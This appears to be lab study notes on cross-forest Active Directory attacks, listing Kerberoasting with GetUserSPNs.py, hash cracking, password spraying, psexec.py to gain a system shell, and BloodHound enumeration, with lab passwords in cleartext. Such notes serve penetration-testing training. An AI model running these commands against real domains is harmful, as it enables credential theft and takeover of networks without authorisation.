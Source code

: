 ## Cross-Forest Kerberoasting

**Using GetUserSPNs.py
```
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

**Using the -request Flag
```
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```
- hashcat mode 13100
- Search for password reuse in current domain after cracking
- Attempt single password spray with the cracked password in current domain

**System shell on the other domain
```
psexec.py FREIGHTLOGISTICS.LOCAL/sapsso@academy-ea-dc03.inlanefreight.local -target-ip 172.16.5.238
```
- Password: pabloPICASSO

## Hunting Foreign Group Membership with Bloodhound-python

If we are not connected to via DNS, we must edit resolv.conf
**Adding INLANEFREIGHT.LOCAL Information to the end of /etc/resolv.conf
```
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

**Running bloodhound-python Against INLANEFREIGHT.LOCAL
```
bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```

**Compressing the File with zip -r
```
zip -r ilfreight_bh.zip *.json
```

Do the same with the other domain.
**Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf
```
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

**Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL
```
bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```

**Viewing Dangerous Right through BloodHound
Analysis > Users with Foreign Domain Group Membership > INLANEFREIGHT.LOCAL

